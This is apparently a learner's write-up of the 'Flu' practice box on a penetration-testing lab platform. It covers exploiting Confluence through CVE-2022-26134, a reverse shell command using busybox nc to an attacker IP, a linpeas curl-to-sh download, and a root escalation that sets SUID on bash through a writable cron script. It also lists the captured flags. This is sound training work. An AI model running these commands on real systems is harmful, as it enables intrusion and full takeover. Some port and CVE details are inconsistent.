```yaml
---
Date: 2024-10-13
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: In progress
IP: 192.168.117.41
Writeup: https://medium.com/@basha5969/flu-proving-grounds-5325abd4a4f2
---
```

# Flu
This is the first box I can confidently say I did ***NOT*** look at a walkthrough for any help on! I've included one in the details above, but it remained as a background tab the entire way through this - massive confidence boost to know I can do this without needing to follow someone else's footsteps!

Seeing Confluence when I checked the html port was a big confidence booster too, as I've worked with it a lot already and knew there were plenty of vulnerabilities and exploit available for older versions. Getting RCE was incredibly simple, and then it was simply a case of enumerating the target to find a privilege escalation vector. 

I'm building confidence with `pspy` too, although I know I need to keep it handier... and to run it with the timeout command (`timeout 20 ./pspy`) so it doesn't break my shell! As soon as I ran it and saw the running script I knew that'd be the vector I needed, but there was still a lot of uncertainty until I realised it was running every 5 mins - waited a few mins before trying `/bin/bash -p` again, and got access!

# Resolution summary
- Ran Nmap to identify ports `22` & `8080`
- Visited http (`8090`) & identified `Confluence v7.13.6`
- Identified exploit for CVE-2022-26134 and ran against target for reverse shell
- Uploaded `pspy` and identified `log-backup.sh` being run regularly by `root`
- Added command to change `/bin/bash` SUID and waited for script to run
- Ran `/bin/bash -p` to become `root`
## Improved skills
- Linux Priv Escalation
## Used tools
- nmap
- python

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Flu.nmap 192.168.117.41 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_  256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
8090/tcp open  opsmessaging?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 302 
|     Cache-Control: no-store
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     X-Confluence-Request-Time: 1728796841602
|     Set-Cookie: JSESSIONID=D518E2E9A0A5F7BFDA68A6A59D3D9A57; Path=/; HttpOnly
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     Content-Security-Policy: frame-ancestors 'self'
|     Location: http://localhost:8090/login.action?os_destination=%2Findex.action&permissionViolation=true
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 13 Oct 2024 05:20:41 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 200 
|     MS-Author-Via: DAV
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 13 Oct 2024 05:20:41 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1924
|     Date: Sun, 13 Oct 2024 05:20:41 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid
1 service unrecognized despite returning data.
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 8090 - HTTP (Confluence)
- Navigated `http://192.168.117.41:8090` and identified `Confluence 7.13.6`
![[Pasted image 20241013155309.png]]
	- Potentially vulnerable to CVE-2022-26134

---
# Exploitation
## CVE-2022-26314 - OGNL Injection
- Used `searchsploit` to identify exploit `50952.py` for CVE-2022026134. Copied exploit to local host and ran `python3 50952.py -u 192.168.117.41:8090 -c id` to test output
![[Pasted image 20241013160053.png]]
- Ran exploit again to establish reverse shell `python3 50952.py -u 192.168.117.41:8090 -c 'busybox nc 192.168.45.250 4444 -e /bin/sh'`
![[Pasted image 20241013161411.png]]
- Ran `find / -name local.txt -type f 2>/dev/null` to find `local.txt` then ran `cat /home/confluence/local.txt` to print `edf698cdc0831e7a2fd857ca3ad2191a`
![[Pasted image 20241013161607.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `cat /etc/passwd` to identify any other users
![[Pasted image 20241013161842.png]]
- Downloaded & ran `suid3num.py` to enumerate useful SUID binaries - none found
![[Pasted image 20241013162422.png]]
![[Pasted image 20241013162446.png]]
- Downloaded & ran `linpeas.sh` with `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh` - nothing obviously useful
![[Pasted image 20241013162640.png]]
- Ran `cat /home/confluence/.bash_history` to check bash history
![[Pasted image 20241013164109.png]]
---
# Privilege Escalation
## Local Enumeration
- Downloaded & ran `pspy32` - identified `/opt/log-backup.sh` being run regularly by `root`
![[Pasted image 20241013165029.png]]
- Ran `ls -lah /opt/log-backup.sh` to check script privileges
![[Pasted image 20241013165554.png]]
## Privilege Escalation vector
- Ran `echo "chmod +s /bin/bash" >> /opt/log-backup.sh` & confirmed written to `/opt/log-backup.sh`
![[Pasted image 20241013170214.png]]
- Waited several minutes for script, then ran `/bin/bash -p` for privileged shell as `root`
![[Pasted image 20241013170318.png]]
- Ran `cat /root/proof.txt` to print `7b793953252334bfadee03b30874aee2`
![[Pasted image 20241013170420.png]]
---
# Trophy & Loot
`local.txt` = `edf698cdc0831e7a2fd857ca3ad2191a`
`root.txt` = `7b793953252334bfadee03b30874aee2`